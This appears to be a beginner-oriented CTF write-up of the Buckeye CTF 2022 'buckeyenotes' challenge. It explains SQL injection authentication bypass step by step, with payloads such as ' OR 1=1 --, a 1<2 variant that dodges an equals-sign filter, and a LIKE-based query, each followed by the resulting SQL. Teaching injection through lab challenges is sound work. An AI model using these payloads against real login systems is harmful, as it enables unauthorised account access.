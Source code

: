 ```yaml
---
title: Buckeye CTF 2022 - buckeyenotes - Writeup 
date: 2022-11-08 -500
categories: [ctf]
tags: [writeup, web, sqli]
---
```


![challenge-description](/assets/buckeyenotes/buckeyenotes-1.png)

Hi! Today we are going to tackle *buckeyenotes* web challenge from 2022 edition of Buckeye CTF. Since the challenge was rated as *begginer*, I wanted to take my time and dive a bit deeper into **what is going on and why**, so that any beginner CTF players reading this can easily follow along.

## Inspecting the website

Let's take a look at the website:

![picture-2](/assets/buckeyenotes/buckeyenotes-2.png)


The first thing you might want to do with any login page is try your luck with some deafult credentials like *admin:password* or *root:password*. However, as you might have guessed, that is not going to work in our case and we are greeted with:
> Invalid username or password

With that out of the way, let's try a standard SQL injection authentication bypass:

> **Username**: test' OR 1=1 --  
> **Password**: x

![picture-4](/assets/buckeyenotes/buckeyenotes-4.png)

Interesting, it looks like we managed to bypass login authentication and were logged in as user *rene*. But what **exactly** happened?

## SQL Injection 

Since the server is running PHP (*index.php* in URL), I am going to assume the database query looks somewhat like this:

```php
$query = "SELECT username FROM users WHERE username ='" . <USERNAME> . "' AND password ='" . <PASSWORD> . "';";
```
Two things to note here:
* *\<USERNAME>* and *\<PASSWORD>* are grabbed from POST request parameters,
* dot (.) operator concatenates strings in PHP. 

And so with 
> **Username**: test' OR 1=1 --  
> **Password**: x

parameters in POST request, the query is:

```php
$query = "SELECT username FROM users WHERE username ='" . "test' OR 1=1 --"  . "' AND password='" . "x" . "';";
```
which executes the following SQL statement:

```sql
SELECT username FROM users WHERE username = 'test' OR 1=1 --'AND password='x'; 
```

The query essentially says: "Give me a user from *users* table that meets either of these requirements:
* user's username is *test*
* 1=1

Also, ignore everything after *--* as it is a comment and should not be executed".

Alright, so the first condition is going to fail as there is no *test* user in the database. However, the second condition is **always** going to be true because, well,  **1 always equals 1**, right? This means that **every** user in the database meets these requirements and so this query returns all users. 

And since I have the benefit of writing this after the files for all challenges were realesed, I can show you exactly what this query would return:

![picture-db](/assets/buckeyenotes/buckeyenotes-db.png) 


 Wait, so is the database going to log us in as **ALL** users at the same time? Not quite. At the time of doing the challenge we obviosuly do not know how the backend works, but it is very likely that it simply takes the **first row in the returned query**. In our case, the first user in *users* table is *rene* and so we get: 

> Logged in as rene . Nothing posted yet :(

The [reason](https://portswigger.net/support/using-sql-injection-to-bypass-authentication) this payload sometimes grants admin privileges is because *admin* user is often the first user in a database.


Now, what would happen if we reversed the payload:

> **Username**: x  
> **Password**: test' OR 1=1 --  

The query would be:

```php
$query = "SELECT username FROM users WHERE username ='" . "x"  . "' AND password='" . "test' OR 1=1 -- " . "';";
```

```sql
SELECT username FROM users WHERE username = 'x' AND password ='test' OR 1=1 --';
```
and would work the same way as before (dumping all users).

![picture-6](/assets/buckeyenotes/buckeyenotes-6.png)

However, it looks like **password** parameter has equal signs filtering - but we can easily work around that with:

> **Username**: x  
> **Password**: test' OR 1<2 --  

as **1 < 2** will also return **true** in SQL query.

![picture-4](/assets/buckeyenotes/buckeyenotes-4.png)

But again, we get logged in as *rene* which does not give us the flag. 


Alright, that was a handful of information, let's finally get to the solution.

## Solution #1 

From the challenge description, we know that user *brutusB3stNut9999* exists somewhere in the database - and there is a good chance this user has the flag. That makes it very convenient as we can simply use:

> **Username**:  brutusB3stNut9999' --  
> **Password**: x 

as payload which results in the following query:

```sql
SELECT username FROM users WHERE username = 'brutusB3stNut9999' --'AND password='x';
```

And sure enough, we get the flag:

![picture-6](/assets/buckeyenotes/buckeyenotes-8.png)

## Solution #2

The second option is to extend the query and ask for the username *brutusB3stNut9999*. 

> Username: x  
> Password: test' OR 1<2 AND username LIKE 'brutusB3stNut9999' -- 

```sql
SELECT username FROM users WHERE username ='x' AND password='test' OR 1<2 AND username LIKE 'brutusB3stNut9999' --';
```

The *LIKE* keyword is used for pattern match comparison and allows us to bypass equal signs filtering. Normally, it could be used like this: ```AND username LIKE 'brutus%' -- ``` and it would return all usernames that matched the pattern, so for example: *brutusB3stNut123*, *brutusW0rstNut9999*,  *brutusB3stNut9999*. In this case, we used it to match exactly the username we are looking for.


As you can see, the first pair of requirements  ```username ='x' AND password='test'``` is going to fail. The second pair  ```1<2 AND username LIKE 'brutusB3stNut9999'``` , however, is true and so the database logs us in as *brutusB3stNut9999* and we get the flag, same as earlier.

![picture-6](/assets/buckeyenotes/buckeyenotes-8.png)

Note that in this case we could have also reversed the payload and it would still work:

> Username: test' OR 1<2 AND username LIKE 'brutusB3stNut9999' --  
> Password:  x



```sql
SELECT username FROM users WHERE username ='test' OR 1<2 AND username LIKE 'brutusB3stNut9999' --' AND password='x';
```



## Conclusion

I know this was a rather long article for such a simple challenge, but I hope it could help begginer CTF players better understand how SQL Injection works. 

Also, somewhere in the article I said:
> *At the time of doing the challenge we obviosuly do not know how the backend works, but it is very likely that it simply takes the first row in the returned query.*

If you are curious about how exactly did the backend (and SQL queries in particular) worked in this challenge, go can take a look at [Buckeye CTF 2022 official repo](https://github.com/cscosu/buckeyectf-2022-public/tree/master/web/buckeyenotes).

